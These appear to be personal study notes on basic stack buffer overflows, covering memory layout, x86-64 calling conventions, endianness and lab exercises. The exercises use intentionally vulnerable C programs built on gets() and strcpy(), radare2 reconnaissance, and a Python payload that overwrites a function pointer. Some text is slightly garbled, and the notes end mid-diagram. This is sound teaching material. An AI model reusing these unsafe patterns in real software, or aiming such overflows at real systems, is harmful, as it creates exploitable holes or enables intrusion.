# Buffer Overflows

Basic Buffer Overflows

## TABLE OF CONTENTS

[Process Layout](#process-layout)  
[x86-64 Procedures](#x86-64-procedures)  
[Endianness](#endianness)  
[Overwriting Variables](#overwriting-variables)  
[Overwriting Function Pointers](#overwriting-function-pointers)  
[Exercise 1](#buffer-overflow-exercise-1)  
[Exercise 2](#buffer-overflow-exercise-2)

## Tools

- radare2  

## Process Layout

### Context Switching  

- switching between processes
- current computer architecture allows multiple processes to be run concurrently  
- processes may appear to run at the same time  
- operating system keeps track of all the information in each process

### Memory Address Space (Virtual Memory Layout)  

```markdown
High Memory (0xFFFFFFFF) 

┌─────────────────────────────────────┐  
│             KERNEL SPACE            │ ← Reserved for OS  
│         (Not accessible to          │  
│           user programs)            │  
├─────────────────────────────────────┤  
│                                     │  
│            USER STACK               │ ← Function calls, local vars  
│               ▼ ▼ ▼                 │   (grows downward)  
│         (grows downward)            │  
│                                     │  
│                 ...                 │  
│                                     │  
│         ┌─────────────────┐         │  
│         │  Stack Frame N  │         │  
│         ├─────────────────┤         │  
│         │  Stack Frame 2  │         │  
│         ├─────────────────┤         │  
│         │  Stack Frame 1  │         │  
│         └─────────────────┘         │  
├─────────────────────────────────────┤  
│                                     │  
│        SHARED LIBRARY REGION        │ ← Dynamic libraries (.so/.dll)  
│                                     │   - libc, OpenGL, etc.  
│  ┌───────────────┐ ┌─────────────┐  │  
│  │   libc.so     │ │  libm.so    │  │  
│  │               │ │             │  │  
│  └───────────────┘ └─────────────┘  │  
│                                     │  
├─────────────────────────────────────┤  
│                                     │  
│           RUN-TIME HEAP             │ ← Dynamic allocation  
│               ▲ ▲ ▲                 │   (malloc, new, etc.)  
│         (grows upward)              │   (grows upward)  
│                                     │  
│    ┌──────────┐ ┌────────────────┐  │  
│    │ malloc() │ │   new object   │  │  
│    │  block   │ │                │  │  
│    └──────────┘ └────────────────┘  │  
│                                     │  
├─────────────────────────────────────┤  
│                                     │  
│         READ/WRITE DATA             │ ← Initialized global vars  
│                                     │   Uninitialized data (BSS)  
│  Global Variables:                  │  
│  ┌─────────────┐ ┌───────────────┐  │  
│  │ int x = 10; │ │ char buffer[] │  │  
│  │ float pi;   │ │ static vars   │  │  
│  └─────────────┘ └───────────────┘  │  
│                                     │  
├─────────────────────────────────────┤  
│                                     │  
│        READ-ONLY CODE/DATA          │ ← Program instructions  
│                                     │   String literals  
│  Program Code:                      │   Constants  
│  ┌─────────────────────────────────┐│  
│  │ main() {                        ││  
│  │   printf("Hello World");        ││  
│  │   return 0;                     ││  
│  │ }                               ││  
│  │                                 ││  
│  │ String literals: "Hello World"  ││  
│  │ Constants: const int MAX = 100  ││  
│  └─────────────────────────────────┘│  
│                                     │  
└─────────────────────────────────────┘  
Low Memory (0x00000000)  
```

#### Memory Growth Directions  

Stack:  ▼ ▼ ▼  (High → Low addresses)  
Heap:   ▲ ▲ ▲  (Low → High addresses)  

#### Memory Section Details  

##### User Stack  

- information required to run a program and functions
- current program counter, saved registers
- Contains function call frames
- Stores local variables and parameters
- Manages return addresses
- Fast allocation/deallocation
- Limited in size (typically 1-8 MB)  

##### Shared Library Region  

- used to either statically or dynamically link libraries  
- Houses dynamically linked libraries
- Shared between multiple processes
- Includes system libraries (libc, libm, etc.)
- Loaded at program startup or on-demand  

##### Run-Time Heap  

- increases and decreases dynamically  
- Used for dynamic memory allocation
- Managed by malloc(), free(), new, delete
- Flexible size but slower than stack
- Risk of memory leaks if not properly managed  

##### Read/Write Data  

- program executable and initialised variables.  
- Initialized data segment : Global variables with initial values
- BSS segment : Uninitialized global variables
- Static variables with function scope  

##### Read-Only Code/Data  

- Text segment : Compiled program instructions
- String literals and constants
- Shared between multiple instances of same program
- Protected from modification  

## x86-64 Procedures

### STACK MEMORY LAYOUT  

```markdown
┌─────────────────────────────────────────────────────────────────┐
│                    STACK MEMORY REGION                          │
│            (Contiguous Memory Addresses)                        │
└─────────────────────────────────────────────────────────────────┘  


Stack Bottom (High Memory Address)
┌─────────────────────────────────────┐
│                                     │
│           UNUSED STACK              │
│              SPACE                  │
│                                     │
│               ▼ ▼ ▼                 │ ← STACK GROWS DOWN
│         (toward lower addresses)    │
│                                     │
├─────────────────────────────────────┤ ← rsp (Stack Pointer)
│          TOP OF STACK               │   Points to TOP
│                                     │
└─────────────────────────────────────┘
Stack Top (Low Memory Address 0x0)
```

### PUSH OPERATION  

```markdown
BEFORE: push var (var = 42)
┌─────────────────┐
│   Unused Space  │
├─────────────────┤ ← rsp = 0x1020
│                 │
│                 │
│                 │
└─────────────────┘

STEP 1: Get value from 'var' memory location (value = 42)
STEP 2: Decrement rsp by 8 (rsp = 0x1020 - 8 = 0x1018)
STEP 3: Write value to new rsp location

AFTER: push var
┌─────────────────┐
│   Unused Space  │
├─────────────────┤
│                 │
├─────────────────┤ ← rsp = 0x1018 (DECREMENTED by 8)
│       42        │ ← NEW TOP OF STACK
│   (from var)    │
└─────────────────┘
```

### POP OPERATION  

```markdown
BEFORE: pop var (stack has value 42 on top)
┌─────────────────┐
│   Unused Space  │
├─────────────────┤
│                 │
├─────────────────┤ ← rsp = 0x1018
│       42        │ ← CURRENT TOP OF STACK
│                 │
└─────────────────┘

STEP 1: Read value at address given by rsp (reads 42)
STEP 2: Store value into var (var = 42)
STEP 3: Increment rsp by 8 (rsp = 0x1018 + 8 = 0x1020)

AFTER: pop var
┌─────────────────┐
│   Unused Space  │
├─────────────────┤ ← rsp = 0x1020 (INCREMENTED by 8)
│                 │ ← NEW TOP OF STACK
├─────────────────┤
│       42        │ ← DATA STILL HERE! (memory unchanged)
│                 │   Only rsp moved!
└─────────────────┘

*** IMPORTANT: Memory content doesn't change during POP! ***
*** Only the stack pointer (rsp) value changes! ***
```

### MULTIPLE FUNCTION STACK FRAMES

```markdown
Program: main() → function_a() → function_b()

Stack Bottom (High Memory)
┌───────────────────────────────────────┐
│           UNUSED SPACE                │
├───────────────────────────────────────┤
│                                       │
│        FUNCTION_B STACK FRAME         │ ← Currently executing
│  ┌─────────────────────────────────┐  │
│  │ Local Variables:                │  │
│  │   int local_b = 30              │  │
│  │ Function Arguments:             │  │
│  │   int param_b                   │  │
│  │ Return Address:                 │  │
│  │   → back to function_a()        │  │
│  │ Saved Registers                 │  │
│  └─────────────────────────────────┘  │ ← rsp points here
├───────────────────────────────────────┤
│        FUNCTION_A STACK FRAME         │
│  ┌─────────────────────────────────┐  │
│  │ Local Variables:                │  │
│  │   int local_a = 20              │  │
│  │   char buffer[100]              │  │
│  │ Function Arguments:             │  │
│  │   (none)                        │  │
│  │ Return Address:                 │  │
│  │   → back to main()              │  │
│  │ Saved Registers                 │  │
│  └─────────────────────────────────┘  │
├───────────────────────────────────────┤
│          MAIN STACK FRAME             │
│  ┌─────────────────────────────────┐  │
│  │ Local Variables:                │  │
│  │   int main_var = 10             │  │
│  │   int argc                      │  │
│  │ Function Arguments:             │  │
│  │   char** argv                   │  │
│  │ Return Address:                 │  │
│  │   → back to OS                  │  │
│  └─────────────────────────────────┘  │
└───────────────────────────────────────┘
Stack Top (Low Memory - toward 0x0)
```

### STACK FRAME LIFECYCLE

```markdown

FUNCTION CALL (Allocating New Frame):
┌─────────────────────────────────────┐
│ 1. PUSH arguments onto stack        │
│ 2. PUSH return address              │
│ 3. PUSH saved registers             │
│ 4. Allocate space for local vars    │
│    (rsp moves down)                 │
└─────────────────────────────────────┘
                  │
                  ▼
            NEW STACK FRAME
                  │
                  ▼
┌─────────────────────────────────────┐
│ Function executes...                │
│ - Uses local variables              │
│ - May call other functions          │
│ - May push/pop temporary values     │
└─────────────────────────────────────┘
                  │
                  ▼
FUNCTION RETURN (Deallocating Frame):
┌─────────────────────────────────────┐
│ 1. Clean up local variables         │
│    (rsp moves up)                   │
│ 2. POP saved registers              │
│ 3. POP return address               │
│ 4. Jump to return address           │
└─────────────────────────────────────┘
```

### DETAILED PUSH/POP MECHANICS

```markdown
RSP Movement during PUSH:
┌──────────┬──────────┬──────────────────────────┐
│ Before   │ After    │ Action                   │
├──────────┼──────────┼──────────────────────────┤
│ 0x1020   │ 0x1018   │ push var1 (rsp -= 8)     │
│ 0x1018   │ 0x1010   │ push var2 (rsp -= 8)     │
│ 0x1010   │ 0x1008   │ push var3 (rsp -= 8)     │
└──────────┴──────────┴──────────────────────────┘

RSP Movement during POP:
┌──────────┬──────────┬──────────────────────────┐
│ Before   │ After    │ Action                   │
├──────────┼──────────┼──────────────────────────┤
│ 0x1008   │ 0x1010   │ pop var3 (rsp += 8)      │
│ 0x1010   │ 0x1018   │ pop var2 (rsp += 8)      │
│ 0x1018   │ 0x1020   │ pop var1 (rsp += 8)      │
└──────────┴──────────┴──────────────────────────┘

Memory State After POP Operations:
┌─────────────────┐
│   Unused Space  │
├─────────────────┤ ← rsp = 0x1020 (back to original)
│      var1       │ ← DATA STILL EXISTS!
├─────────────────┤   But is now "above" stack top
│      var2       │ ← DATA STILL EXISTS!
├─────────────────┤   Will be overwritten by future pushes
│      var3       │ ← DATA STILL EXISTS!
└─────────────────┘
```

### STACK POINTER DIRECTIONS

```markdown
   ▲ Higher Memory Addresses (Stack Bottom)
   │
   │ POP: rsp += 8 ↑ (moves UP toward higher addresses)
   │
   │ PUSH: rsp -= 8 ↓ (moves DOWN toward lower addresses)
   │
   ▼ Lower Memory Addresses (Stack Top, toward 0x0)
```

Function Call Flow:  
main() calls function_a():  
  • Creates new stack frame  
  • rsp moves DOWN (lower addresses)  
  
function_a() returns to main():  
  • Destroys stack frame  
  • rsp moves UP (higher addresses)  

### Key Stack Concepts Summary

| Concept | Description | Memory Effect |
|---------|-------------|---------------|
| **Stack Frame** | Dedicated memory area for each function | Allocated on call, deallocated on return |
| **PUSH Operation** | Add data to stack top | rsp decreases by 8, data written |
| **POP Operation** | Remove data from stack top | rsp increases by 8, data read (but memory unchanged!) |
| **Stack Growth** | Always toward lower memory addresses | New data appears at progressively lower addresses |
| **Frame Management** | Each function gets its own frame | Automatic allocation/deallocation |

### Critical Notes

🔹 **Memory Persistence**: POP operations don't erase memory - they only move the stack pointer!  
🔹 **Stack Direction**: Stack grows DOWN (toward address 0x0) but we often draw it growing UP for visual clarity  
🔹 **Frame Isolation**: Each function's stack frame is separate, providing local variable isolation  
🔹 **Automatic Management**: Stack frames are automatically managed by the CPU and compiler  

This design makes function calls efficient and provides automatic memory management for local variables and function parameters.  

### Control Flow

Consider two functions:  

```markdown

int add(int a, int b){
   int new = a + b;
   return new;
}


int calc(int a, int b){
   int final = add(a, b);
   return final;
}

calc(4, 5)
```  

The following explanation assumes the current point of execution is inside the ```calc``` function. In this case ```calc``` is known as the ```caller function``` and ```add``` is known as the ```callee function```dotnetcli

The following presents the assembly code inside ```calc```dotnetcli

  

```markdown

Stack Bottom (High Memory Address)
┌─────────────────────────────────────┐
│                                     │
│       Previous Stack Frame          │
│                                     │
├─────────────────────────────────────┤
│                                     │
│          CALC Stack Frame           │
│                                     │
└─────────────────────────────────────┘
Stack Top (Low Memory Address 0x0)
```

```add``` is invoked using the call operand (```callq sym.add```) in assembly.  
The call operand can take either a label as an argument(e.g. A function name), or it can take a memory address as an offset to the location of the start of the function in the form of call *value.  
Once the add function is invoked(and after it is completed), the program would need to know what point (memory address) to continue in the program.  
To do this, the computer pushes the address of the next instruction onto the stack, in this case the address of the instruction ```movl %eax, local_4h```.  
After this, the program would allocate a stack frame for the new function, change the current instruction pointer to the first instruction in the function, change the stack pointer(rsp) to the top of the stack, and change the frame pointer(rbp) to point to the start of the new frame.  



```markdown

Stack Bottom (High Memory Address)
┌─────────────────────────────────────┐
│                                     │
│       Previous Stack Frame          │
│                                     │
├─────────────────────────────────────┤
│                                     │
│          CALC Stack Frame           │
│                                     │
├─────────────────────────────────────┤
│                                     │
│         Return address (retq)       │
│ (remains part of calc stack frame)  │
├─────────────────────────────────────┤
│                                     │
│         ADD Stack Frame             │
│                                     │
└─────────────────────────────────────┘

Stack Top (Low Memory Address 0x0)
```

Once ```add``` finishes execution, it calls the return instruction(retq).  
This instruction will:

- pop the value of the return address of the stack (```popq %rbp```)
- deallocate the stack frame for the add function
- change the instruction pointer to the value of the return address (```0x562b77165631```)
- change the stack pointer(rsp) to the top of the stack, and
- change the frame pointer(rbp) to the stack frame of calc.

This returns to the previous state  

```markdown

Stack Bottom (High Memory Address)
┌─────────────────────────────────────┐
│                                     │
│       Previous Stack Frame          │
│                                     │
├─────────────────────────────────────┤
│                                     │
│          CALC Stack Frame           │
│                                     │
└─────────────────────────────────────┘
Stack Top (Low Memory Address 0x0)
```

### Data Transfer  

  

The calc function takes 2 arguments(a and b).  
Upto 6 arguments for functions can be stored in the following registers:  

- rdi: 64-bit general purpose register; primarily serves as the first argument register  
- rsi: 64-bit general purpose register; primarily serves as the second argument register  
- rdx: 64-bit general purpose register; third argument register, also a data register for controlling size parameters, modes, and enviornment variables
- rcx: 64-bit general purpose register; fourth argueargumentment register; loop counter register
- r8: 64-bit general purpose extended register; fifth argument register
- r9: 64-bit general purpose extended register; sixth argument register; last register for passing parameters/arguements  

Note: The use of seven or more arguements results in storing of those values on the functions stack frame
Arguments 7+: Stored on stack (slower access)  
[RSP + 0x08] → arg7  
[RSP + 0x10] → arg8  
[RSP + 0x18] → arg9  

Implications of 7+ arguements:  

- Complexity Increase : Stack frames become larger and more complex
- Performance Impact : Memory access overhead for stack arguments
- Exploitation Opportunity : Direct stack argument control via overflow
- Defense Challenges : Larger attack surface and complex memory layouts
- Payload Simplification : No gadgets needed for arguments 7+ (direct stack control)

Destination Indexes:  

- rax: 64-bit accumulator register; systcall register; stores results of arithmetic operations  (eax is the 32-bit version)

Caller's responsibility to preserve before function calls

- RAX, RCX, RDX, RSI, RDI, R8, R9, R10, R11

Callee's responsibility to preserve during function execution

- RBX, RBP, R12, R13, R14, R15, RSP


## ENDIANNESS


### ENDIANNESS COMPARISON


```markdown
Memory Address:    0x1000  0x1001  0x1002  0x1003
                      |       |       |       |
                      v       v       v       v
```

### BIG ENDIAN (Most Significant Byte First)


32-bit value: 0x12345678  

```markdown
    ┌─────┬─────┬─────┬─────┐
    │ 12  │ 34  │ 56  │ 78  │
    └─────┴─────┴─────┴─────┘
     MSB                 LSB
   (Most              (Least
 Significant)       Significant)
```  

Human readable order: "Reads naturally left to right"


### LITTLE ENDIAN (Least Significant Byte First)


32-bit value: 0x12345678

```markdown
    ┌─────┬─────┬─────┬─────┐
    │ 78  │ 56  │ 34  │ 12  │
    └─────┴─────┴─────┴─────┘
     LSB                 MSB
   (Least             (Most
 Significant)       Significant)
```  

Human readable order: "Bytes stored in reverse order"

### BIT SIGNIFICANCE  

#### Most Significant Bit (MSB)

The bit position in a binary number haivng the greatest value or carries the most weight in determining the number's magnitude  
The leftmost bit and represents the highest power of 2 in the number's positional notation system.

#### Least Significant Bit (LSB)

The bit position with the smallest value or weight in a binary number  
The rightmost position, the LSB represents 2^0 = 1 and determines whether a number is odd or even.

#### POSITIONAL NOTATION  

```markdown
Binary number: b₇ b₆ b₅ b₄ b₃ b₂ b₁ b₀
Decimal value: b₇×2⁷ + b₆×2⁶ + b₅×2⁵ + b₄×2⁴ + b₃×2³ + b₂×2² + b₁×2¹ + b₀×2⁰
               ↑                                                           ↑
              MSB                                                         LSB
              (128)                                                        (1)
```  

#### EXAMPLE

For the 8-bit binary number ```01010110```:

MSB (bit 6): 1 → contributes 64 to the decimal value  
LSB (bit 0): 0 → contributes 0 to the decimal value  
Total decimal value: 64 + 16 + 4 + 2 = 86  

#### ENDIANNESS RELATIONSHIP

**Big-Endian Systems**  

MSB stored at lowest memory address  
Natural human reading order preserved  
Network protocols commonly use big-endian  

**Little-Endian Systems**  

LSB stored at lowest memory address
x86/x64 architectures employ little-endian
Facilitates efficient arithmetic operations  


### MEMORY LAYOUT VISUALIZATION

```markdown  
Address:  │ Big Endian │ Little Endian │
─────────────────────────────────────────
0x1000    │     12     │      78       │
0x1001    │     34     │      56       │
0x1002    │     56     │      34       │
0x1003    │     78     │      12       │
```  

KEY POINTS:

- x86/x64 architectures use Little Endian
- Network protocols typically use Big Endian
- Important for buffer overflow exploitation
- Affects how addresses are stored in memory


This concept is crucial for buffer overflow training because:

1. **Return addresses** are stored according to the system's endianness
2. **Shellcode addresses** must be written in the correct byte order
3. **Payload construction** requires understanding how multi-byte values are arranged in memory

## Overwriting Variables  

### The Code  

```c

// integer and character buffer are initialized next to each other
// not always the case, but memory is allocated in continuous bytes
int main(int argc, char **argv)
{
  volatile int variable = 0;
  char buffer[14];

  gets(buffer);

  if(variable != 0) {
      printf("You have changed the value of the variable\n");
  } else {
      printf("Try again?\n");
  }
}
```  

allocated variables are aligned to a particualr size boundaries easing memory allocation and deallocation

### ALIGNMENT VISUALIZATION

In the event a 12-byte array is allocated in a stack asigned for 16-bytes, the memory appears as:

```markdown
Byte Position:  0  1  2  3  4  5  6  7  8  9  10 11 12 13 14 15
               ┌──┬──┬──┬──┬──┬──┬──┬──┬──┬──┬──┬──┬──┬──┬──┬──┐
Array Data:    │ 0│ 1│ 2│ 3│ 4│ 5│ 6│ 7│ 8│ 9│10│11│XX│XX│XX│XX│
               └──┴──┴──┴──┴──┴──┴──┴──┴──┴──┴──┴──┴──┴──┴──┴──┘
               ←─────── Used (12 bytes) ───────→← Padding (4) →
```

The compiler automatically adds the last 4-bytes ensuring the size of the vairalbe aligns with the stack size.  

### MAIN FUNCTION STACK FRAME  

```markdown
            ┌─────────────────────────────────┐ ← MAIN'S STACK FRAME BEGINS
0x7fff7fe0  │          char **argv            │ ← Function parameter 2
            │        (8 bytes - RSI)          │   (pointer to argument array)
            ├─────────────────────────────────┤
0x7fff7fd8  │           int argc              │ ← Function parameter 1  
            │        (4 bytes - RDI)          │   (argument count)
            │         [4 byte pad]            │   (alignment padding)
            ├─────────────────────────────────┤ ← 16-byte boundary
0x7fff7fd0  │         RETURN ADDRESS          │ ← Where main() returns to
            │           (8 bytes)             │   (saved RIP register)
            ├─────────────────────────────────┤
0x7fff7fc8  │        SAVED RBP (old)          │ ← SAVED REGISTERS
            │           (8 bytes)             │   (caller's base pointer)
            ├─────────────────────────────────┤ ← 16-byte boundary  
0x7fff7fc0  │                                 │
            │      SAVED REGISTERS            │ ← Additional callee-saved
            │    (RBX, R12-R15 if used)       │   registers (if any)
            │                                 │
            ├─────────────────────────────────┤ ← 16-byte boundary
0x7fff7fb0  │     volatile int variable       │ ← VOLATILE INT VARIABLE
            │          = 0                    │   (4 bytes)
            │         [4 byte pad]            │   (alignment padding)
            │         [8 byte pad]            │   (16-byte alignment)
            ├─────────────────────────────────┤ ← 16-byte boundary
0x7fff7fa0  │  buffer[13] (TOP OF BUFFER)     │ ← CHAR BUFFER TOP
            │  buffer[12]                     │   (highest index)
            │  buffer[11]                     │
            │  buffer[10]                     │
            ├─────────────────────────────────┤
0x7fff7f98  │  buffer[9]                      │
            │  buffer[8]                      │   
            │  buffer[7]                      │   CHAR BUFFER[14]
            │  buffer[6]                      │   (14 bytes allocated)
            ├─────────────────────────────────┤
0x7fff7f90  │  buffer[5]                      │
            │  buffer[4]                      │
            │  buffer[3]                      │
            │  buffer[2]                      │
            ├─────────────────────────────────┤ ← 16-byte boundary
0x7fff7f88  │  buffer[1]                      │
            │  buffer[0] (BOTTOM OF BUFFER)   │ ← CHAR BUFFER BOTTOM
            │         [2 byte pad]            │   (lowest index + padding)
            │         [4 byte pad]            │   (16-byte alignment)
            │         [8 byte pad]            │
            └─────────────────────────────────┘ ← 16-byte boundary

Lower Memory Addresses
```

The stack grows from high memory address to lower memory address  
when data is copied/written into the buffer, it is written from lower memory addresses to higher memory addresses  

### BUFFER OVERFLOW VULNERABILIY  

```gets``` takes data afrom the standard input but has no bounds checking to ensure that data is no longer than 14 bytes

Input length > 14 chars → Overwrites padding → Overwrites variable  
Input length > 16 chars → Overwrites variable (changes from 0)  
Input length > 32 chars → Overwrites saved registers  
Input length > 40 chars → Overwrites return address (RIP control)  

## Overwriting Function Pointers

### Task 7 Code

```c
#include <stdlib.h>
#include <unistd.h>
#include <stdio.h>

void special()
{
    printf("this is the special function\n");
    printf("you did this, friend!\n");
}

void normal()
{
    printf("this is the normal function\n");
}

void other()
{
    printf("why is this here?");
}

int main(int argc, char **argv)
{
    volatile int (*new_ptr) () = normal;
    char buffer[14];
    gets(buffer);
    new_ptr();
}
```

### EXECUTION

The `gets()` function, again, reads user inptu into a 14-byte buffer which has no bounds checking.  
The exploitation is more complex in this case.
The attacker's target: `volatile int (*new_ptr)() = normal`
The objective: Change function pointer from normal to special
Requires the attacker to disocver the exact 8-byte address of the `special` function  

**Execution Flow**  

`gets()` overflows buffer
Function pointer `new_ptr` gets overwritten with address of `special()`
`new_ptr()` call executes `special()` instead of `normal()`
Output: "this is the special function" an

### FORCING SPECIAL() to EXECUTE  

**Note**  
The buffer variable is of size 14, indicating the solution is will require inputs beginning at the 15th position

### EXERCISE  

#### RECON

Use a component of Radare2 to gather metadata about the compiled application, without executing the application.  
`:> rabin2 -I func-pointer`  

**OUTPUT**  

```c 
arch     x86 
baddr    0x400000 // default memory load address
binsz    6510 // size of the file in bytes
bintype  elf
bits     64 // helps with identification and use of memory pointers
canary   false  // no built-in protection to detect stack buffer overflows
class    ELF64
compiler GCC: (GNU) 7.3.1 20180303 (Red Hat 7.3.1-5) // vulnerabilities or flaws in the compiler lead to vulnerablities or flaws in the binary
crypto   false // sensitive data, password verification, communication all happen in plain text
endian   little
havecode true // indicates the binary can be disassembled to analys control flow, identify functions, and conduct vulnerability research
intrp    /lib64/ld-linux-x86-64.so.2
laddr    0x0 // indicates the load address is determined at runtime, no default address
lang     c
linenum  true // binary contains debug line number information mapping machine code to source code; exposes: source file paths and names, function names and locations; variable names and scopes; code structure and logic flow, and other items
lsyms    true // binary contains debugging metadata; exposes variable names and functionalities, algorithm implementation detials, security-sensitive variable names, etc...
machine  AMD x86-64 architecture
maxopsz  16 // maximum instruction size supported by the architecture
minopsz  1 // minimum instruction size supported by the architecture
nx       false // missing protections; code stored in the stack, heap, or data areas will be executed as code and not treated only as data.
os       linux
pcalign  0
pic      false  // Position Independent Code; code execute correctly regardless of wheere it's loaded in memory
relocs   true
relro    partial
rpath    NONE
sanitiz  false  //whether or not the binary was compiled with runtime security sanitizers: AddressSanitizer, MemorySantizer; UndefeinedBehaviorSanitizer
static   false  //whether dependencies are embedded, [statically linked, true] or shared [dynamically linked, false]; shared dependencies increase attack surface
stripped false // whether or not debugging symbols and metadata have been removed fro mthe binary; impacts reverse engineering complexity
subsys   linux
va       true
```  

`:> r2 func-pointer`  
At the entry point

  

**Display imports**  

`:>ii`


**Display Entrypoints**  

`:>ie`  

  

**Display Strings in the Data Section**  

`:>iz`



**Show the flag namespaces**  

`:>fs`  



**Enumerate Flagspaces**  

recon the flagspaces until there is something intersting
`:> fs <flagspace name>`

Use a compound command to enumerate the flags in a specific namespace

`fs symbols;f`  

  

The symbols flagspace provides the memory location of the sym.special function which is the target.  

`0x00400567 27 sym.special`  

#### EXPLOIT

Exit radare2 and attempt to run the program  
Based on the size of the char buffer, we know we need fifteen characters before exploiting the memory address.
The memory address must be in Little Endian  
git a
`:> ./func-pointer AAAAAAAAAAAAAA`

This commmand will result in a segmentation fault.  
Segmentation faults result when a program attempts to access memory it is not authorized to access, or possibly access memory in a way not allowed by the OS memory management unit.  

  

We know the number of junk input bytes required to overflow the char buffer.  
We know the address of the special function.  
We know the need to place the address into Little Endian

Simplify the exploit using python to generate the bulk of the input.  

`python -c 'print "A" * 14 + "\x67\x05\x40"' | ./func-pointer`

 

## BUFFER OVERFLOW EXERCISE 1

### Task 8 Code

```c
#include <stdio.h>
#include <stdlib.h>

void copy_arg(char *string)
{
    char buffer[140];
    strcpy(buffer, string);
    printf("%s\n", buffer);
    return 0;
}

int main(int argc, char **argv)
{
    printf("Here's a program that echo's out your input\n");
    copy_arg(argv[1]);
}
```

In this example, `strcpy` function (within the `copy_arg` function) copies input from a string `argv[1]`,  which is a command line argument, to a buffer of length 140 bytes. 
`strcpy` does not check the length of the data being input making it possible to overflow the buffer.
Something more malicious is possible.  
Let’s take a look at what the stack will look like for the copy_arg function(this stack excludes the stack frame for the strcpy function): 

### The Stack Frame  

```md
STACK MEMORY LAYOUT (x86-64, System V ABI, 16-byte aligned)
============================================================

Memory Address    Content                     Description
--------------    -------                     -----------

Higher Memory
     ↑
     │ Stack grows downward
     ↓

0x7fff8000    ┌─────────────────────────────┐ ← STACK BOTTOM
              │    ENVIRONMENT VARIABLES    │   (Process startup data)
              │         ARGV ARRAY          │
              │                             │
              └─────────────────────────────┘

              ┌─────────────────────────────┐ ← MAIN'S STACK FRAME
0x7fff7ff0    │        char **argv          │   (RSI register parameter)
              │         (8 bytes)           │   (pointer to argument array)
              ├─────────────────────────────┤
0x7fff7fe8    │         int argc            │   (RDI register parameter)
              │         (4 bytes)           │   (argument count)
              │       [4 byte pad]          │   (alignment padding)
              ├─────────────────────────────┤ ← 16-byte boundary
0x7fff7fe0    │     RETURN ADDRESS          │ ← Where main() returns to
              │        (8 bytes)            │   
              ├─────────────────────────────┤
0x7fff7fd8    │     SAVED RBP (main)        │ ← Saved base pointer
              │        (8 bytes)            │   (caller's frame pointer)
              ├─────────────────────────────┤ ← 16-byte boundary
0x7fff7fd0    │                             │
              │     CALL SETUP SPACE        │ ← Space for function call
              │      (16 bytes)             │   (ABI requirements)
              └─────────────────────────────┘

              ┌─────────────────────────────┐ ← COPY_ARG'S STACK FRAME
0x7fff7fc0    │     char *string (RDI)      │ ← Function parameter (argv[1])
              │        (8 bytes)            │   (passed in RDI register)
              ├─────────────────────────────┤
0x7fff7fb8    │    RETURN ADDRESS           │ ← Where copy_arg() returns
              │        (8 bytes)            │   (back to main + offset)
              ├─────────────────────────────┤ ← 16-byte boundary
0x7fff7fb0    │    SAVED RBP (copy_arg)     │ ← Saved base pointer
              │        (8 bytes)            │   (main's frame pointer)
              ├─────────────────────────────┤
0x7fff7fa8    │                             │
              │                             │
              │                             │
              │     buffer[132-139]         │ ← buffer[132] through buffer[139]
              │      (8 bytes)              │   (end of 140-byte buffer)
              ├─────────────────────────────┤
0x7fff7fa0    │     buffer[124-131]         │
              │      (8 bytes)              │
              ├─────────────────────────────┤
0x7fff7f98    │     buffer[116-123]         │
              │      (8 bytes)              │
              ├─────────────────────────────┤
0x7fff7f90    │     buffer[108-115]         │
              │      (8 bytes)              │
              ├─────────────────────────────┤
              │         ...                 │ ← CHAR BUFFER[140]
              │    (buffer continues)       │   (140 bytes total allocation)
              │         ...                 │   (rounded up for alignment)
              ├─────────────────────────────┤
0x7fff7f30    │     buffer[24-31]           │
              │      (8 bytes)              │
              ├─────────────────────────────┤
0x7fff7f28    │     buffer[16-23]           │
              │      (8 bytes)              │
              ├─────────────────────────────┤
0x7fff7f20    │     buffer[8-15]            │
              │      (8 bytes)              │
              ├─────────────────────────────┤ ← 16-byte boundary
0x7fff7f18    │     buffer[0-7]             │ ← buffer[0] through buffer[7]
              │      (8 bytes)              │   (start of buffer - lowest addr)
